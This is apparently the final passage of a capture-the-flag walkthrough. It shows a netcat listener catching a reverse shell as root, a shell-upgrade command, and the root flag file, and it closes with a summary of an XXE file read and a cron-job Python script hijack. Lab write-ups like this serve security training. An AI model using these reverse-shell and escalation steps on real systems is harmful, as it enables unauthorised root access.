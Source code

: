```bash
nc -lnvp 8080
listening on [any] 8080 ...
```

```bash
connect to [192.168.0.103] from (UNKNOWN) [192.168.0.102] 57446
whoami
root
script /dev/null -c bash
Script started, output log file is '/dev/null'.
```

```bash
root@system:~# ls
```

**OUTPUT**

```bash
root.txt
```

---

**Congratulations!**
**You explored an XXE vulnerability to access local files and leveraged a privilege misconfiguration to escalate access by hijacking a Python script executed via a cron job.**
**Thank you for completing this challenge!**
